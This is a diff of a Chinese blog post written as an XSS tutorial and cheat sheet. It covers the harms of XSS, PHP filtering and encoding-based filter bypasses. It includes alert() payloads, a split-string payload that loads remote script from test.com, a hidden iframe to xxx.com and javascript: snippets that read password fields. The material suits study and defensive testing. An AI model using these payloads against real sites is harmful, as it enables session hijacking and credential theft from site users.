

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-29-XSS.md, in a window 1280 px wide and 1400 px high, scrolled down 565 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update XSS.md

`````diff
--- a/_posts/2020-11-29-XSS.md
+++ b/_posts/2020-11-29-XSS.md
@@ -20,7 +20,9 @@ tags:
 
 XSS，全称Cross Site Scripting，即跨站脚本攻击，为避免和层叠样式表（CSS，Cascading Style Sheets）的缩写混淆，将Cross（“交叉”）改为交叉形状的X作为缩写。
 
-引起XSS的原因是Web应用程序对用户输入的内容过滤不足。
+XSS自1996年诞生以来，一直被OWASP（open web application security project）评为十大安全漏洞中的第二威胁漏洞。也有黑客把XSS当做新型的“缓冲区溢出攻击”，而JavaScript是新型的shellcode。2011年6月份，国内最火的信息发布平台“新浪微博”爆发了XSS蠕虫攻击，仅持续16分钟，感染用户近33000个，危害十分严重。XSS最大的特点就是能注入恶意的代码到用户浏览器的网页上，从而达到劫持用户会话的目的。
+
+XSS是由于web应用程序对用户的输入过滤不严而产生的。
 
 
 
@@ -49,12 +51,14 @@ XSS，全称Cross Site Scripting，即跨站脚本攻击，为避免和层叠样
 ## 0x03 XSS危害
 
 - 执行任意的HTML和JavaScript代码（如：插入恶意SEO链接、广告等）。
-- 盗取Cookie导致用户账户被盗或个人信息泄露。
-- 对用户浏览器进行攻击（如：恶意木马下载、键盘记录）
-- 对运维人员、客服人员浏览器进行攻击（如：内网探测、未授权漏洞攻击）
-- 利用iframe或XMLHttpRequest等方式，以（被攻击）用户的身份执行一些管理动作
-- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作（如：进行不当的投票活动）
+- 盗取Cookie，窃取用户浏览会话。
+- 网络钓鱼，包括盗取各类的用户账号，泄露个人信息。
+- 对用户浏览器进行攻击（如：恶意木马下载、键盘记录）。
+- 对运维人员、客服人员浏览器进行攻击（如：提升用户权限、内网探测、未授权漏洞攻击）。
+- 利用iframe或XMLHttpRequest等方式，以（被攻击）用户的身份执行一些管理动作。
+- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作（如：进行不当的投票活动）。
 - 在一些访问量极大的页面上使用XSS可以攻击一些小型网站，实现Dos攻击的效果。
+- 强制弹出广告页面、刷流量、网页挂马、传播跨站脚本蠕虫等
 
 
 
@@ -72,6 +76,12 @@ XSS，全称Cross Site Scripting，即跨站脚本攻击，为避免和层叠样
 <img src="1" onerror="alert('XSS')">
 等等
 ```
+
+XSS测试可以使用：
+
+- XSS弹出恶意警告框：\<script\>alert("xss")\</script\>
+- 也可以是html代码段，如使网页不停的刷新：\<meta http-equiv="refresh" content="0;"\>
+- 如嵌入其他网站链接的代码：\<iframe src=http://xxx.com width=0 height=0\>\</iframe\>
 
 
 
@@ -103,6 +113,15 @@ php对XSS过滤函数：
 - htmlentities(string, flags, character-set, double_encode)将字符串中的所有HTML标识符转化为HTML实体编码，包括不认识的字符，所以要注意中文的时候要character-set要选对编码（gb23112）。
 - htmlspecialchars(string, flags, character-set, double_encode)将字符串中的特定的几个HTML标识符转化成HTML实体编码，如双引号转为\&quot;等
 - strip_tags()去掉HTML及php标记，如一些标签"\<script\>"
+- 正则preg_replace()函数
+
+```
+常见的防XSS代码
+$x=preg_replace("/script/","",$x);		匹配script替换为空
+$x=preg_replace("/script/i","",$x);		不管大小写的script都匹配并替换为空
+```
+
+
 
 
 
@@ -118,15 +137,15 @@ php对XSS过滤函数：
 
 
 
-## 0x07 select标签
+## 0x07 HTML知识
+
+#### 1. select标签
 
 select标签可创建单选或多选菜单。
 
 \<select\>元素中的\<option\>标签用于定义列表中的可用选项。
 
-
-
-## 0x08 hidden隐藏域
+#### 2. hidden隐藏域
 
 隐藏域是用来收集或发送信息的不可见元素，对于网页的访问者来说，隐藏域是看不见的。
 
@@ -136,9 +155,7 @@ select标签可创建单选或多选菜单。
 <input type="hidden" name="..." value="...">
 ```
 
-
-
-## 0x09 svg标签
+#### 3. svg标签
 
 svg意为可缩放矢量图形(Scalable Vector Graphics)，其使用XML格式定义图像。
 
@@ -155,9 +172,7 @@ svg文件可通过以下标签嵌入HTML文档：
 "><svg onload=alert(document.domain)>%0a
 ```
 
-
-
-## 0x0a text文本框
+#### 4. text文本框
 
 表单元素中的文本框text，定义为常规文本输入，其属性介绍如下：
 
@@ -165,9 +180,7 @@ svg文件可通过以下标签嵌入HTML文档：
 - readonly属性规定输入字段为只读(不能修改)
 - disabled属性规定输入字段是禁用的。
 
-
-
-## 0x0b html事件
+#### 5. html事件
 
 - onclick 当单击鼠标时运行脚本
 - ondbclick 当双击鼠标时运行脚本
@@ -188,25 +201,98 @@ svg文件可通过以下标签嵌入HTML文档：
 
 
 
-## 0x0c 编码绕过
+## 0x08 JavaScript知识
 
-#### 1. JS编码
+#### 1. document对象
+document是一个对象，从JavaScript一开始就存在的一个对象，它代表当前的页面（文档）。我们调用它的write()方法就能够向该对象中写入内容，即：
 
-#### 2. URL编码
+```javascript
+document.write()
+```
 
-#### 3. html编码
 
-#### 4. base64编码
+可以在html引用外部js代码
+
+```html
+<script src=x.js></script>
+```
+
+js代码中写入
+
+```javascript
+document.write("hello");
+```
+
+
+
+## 0x09 XSS绕过
+
+#### 1. JS八进制编码
+
+```
+\074\163\143\162\151\160\164\076\141\154\145\162\164\050\061\051\074\057\163\143\162\151\160\164\076
+相当于
+<script>alert(1)</script>
+```
+
+#### 2. JS十六进制编码
+
+````
+\x3c\x73\x63\x72\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x31\x29\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e
+相当于
+<script>alert(1)</script>
+````
+
+#### 3. fromCharCode函数编码
+
+可以利用hackerbar的XSS编码功能中的：js String.fromCharCode编码
+
+```
+<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</script>
+相当于
+<script>alert(1)</script>
+```
+
+#### 4. unicode编码
+
+```
+\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e
+相当于
+<script>alert(1)</script>
+
+# 示例
+\u003cimg src=1 onerror=alert(/xss/)\u003e
+```
+
+#### 5. URL编码
+
+```
+%3Cscript%3Ealert%281%29%3C%2Fscript%3E
+相当于
+<script>alert(1)</script>
+```
+
+#### 6. html编码
+
+利用hackerbar的XSS编码功能：HTML实体编码
+
+```
+&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
+相当于
+<script>alert(1)</script>
+```
+
+#### 7. base64编码
 
 ```
 "><script>eval((atob('base64代码'));</script>
 ```
 
-#### 5. 绕过双引号过滤
+#### 8. 绕过双引号过滤
 
 空格代替双引号，来闭合属性。
 
-#### 6. 绕过on、script等关键词过滤
+#### 9. 绕过on、script等关键词过滤
 
 使用空格绕过
 
@@ -214,7 +300,7 @@ svg文件可通过以下标签嵌入HTML文档：
 "><a href="javascr   ipt:document.domain">xss</a>
 ```
 
-#### 7. 绕过空格、尖括号和双引号等过滤
+#### 10. 绕过空格、尖括号和双引号等过滤
 
 利用IE特性（两个反引号\`\`可以闭合一个左边双引号）
 
@@ -222,7 +308,7 @@ svg文件可通过以下标签嵌入HTML文档：
 `` onmousemove=alert(document.domain)
 ```
 
-#### 8. CSS注释绕过关键字过滤
+#### 11. CSS注释绕过关键字过滤
 
 利用CSS特性（仅IE浏览器）
 
@@ -240,9 +326,9 @@ color:express/**/ion(if(!window.x){alert(document.domain);window.x=1;})
 color:express\ion(if(!window.x){alert(document.domain);window.x=1;})
 ```
 
-#### 9. 绕过尖括号\<\>过滤
+#### 12. 绕过尖括号\<\>过滤
 
-尖括号过滤（被转义成了\&gt;和\&lt;实体），双斜杠+十六进制编码绕过实体转义。
+尖括号过滤（被转义成了\&gt;和\&lt;实体），双斜杠+十六进制编码绕过实体转义。双斜杠可加可不加，实际测试环境为准。
 
 ```
 \\x3c是<
@@ -258,10 +344,24 @@ color:express\ion(if(!window.x){alert(document.domain);window.x=1;})
 \\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
 ```
 
+#### 13.  绕过限制字符（要求同页面）
+
+```
+<script>z='document.'</script>
+<script>z=z+'write("'</script>
+<script>z=z+'<script'</script>
+<script>z=z+' src=ht'</script>
+<script>z=z+'tp://ww'</script>
+<script>z=z+'w.test'</script>
+<script>z=z+'.com/1.'</script>
+<script>z=z+'js></sc'</script>
+<script>z=z+'ript>")'</script>
+<script>eval_r(z)</script>
+```
 
 
 
-## 0x0d JavaScript伪协议
+## 0x0a JavaScript伪协议
 
 JavaScript伪协议，是把js代码放在javascript:后，放在链接或者HTML事件处理中，这个特殊的协议类型声明了URL主体是任意的js代码，如果有多个js语句，使用分号分隔开。
 
@@ -269,6 +369,20 @@ JavaScript伪协议，是把js代码放在javascript:后，放在链接或者HTM
 http://xxx?key=javascript:alert(1)">
 或
 <a href="javascript:document.domain">xss</a>
+```
+
+
+
+## 0x0b 获取Cookie中的密码
+
+利用JavaScript伪协议获取cookie中的密码。
+
+```
+# 注意修改对应的标签号和标签name值
+javascript:alert(document.getElementsByTagName(form)[0].getElementsByTagName(input)[1].value);
+
+# 注意修改对应的标签id值
+javascript:alert(document.getElementsById(username).value=admin);document.getElementById(password).focus();
 ```
 
 
@@ -330,7 +444,24 @@ http://xxx?key=javascript:alert(1)">
 
 ## 0xfe XSS工具
 
-#### 1. xsser
+#### 1. 火狐中常用的XSS调试插件
+- Hackbar（利用hackerbar的XSS编码功能：HTML实体编码和js String.fromCharCode编码）
+- Firebug
+- Tamper Data
+- Live HTTP Headers
+- Editor Cookie
+
+#### 2. 工具挖掘XSS漏洞
+- awvs
+- netsparke
+- appscan
+- burp
+- xsser
+- xsscrapy
+- brutexssr
+- OWASP Xenotix/
+
+#### 3. xsser检测工具
 
 xsser
 xsser -h        # 帮助信息
@@ -339,7 +470,7 @@ xsser -u \<url\>		# 对链接进行xss测试
 ......
 
 
-#### 2. XSStrike
+#### 4. XSStrike检测工具
 
 XSStrike是一款检测XSS的高级检测工具。它集成了payload生成器、爬虫和模糊引擎功能。XSStrike不是像其他工具那样注入有效负载并检查其工作，而是通过多个解析器分析响应，然后通过与模糊引擎集成的上下文分析来保证有效负载。除此之外，XSStrike还具有爬行，模糊测试，参数发现，WAF检测功能。它还会扫描DOM XSS漏洞。
 必须要python 3.6版本以上。
`````
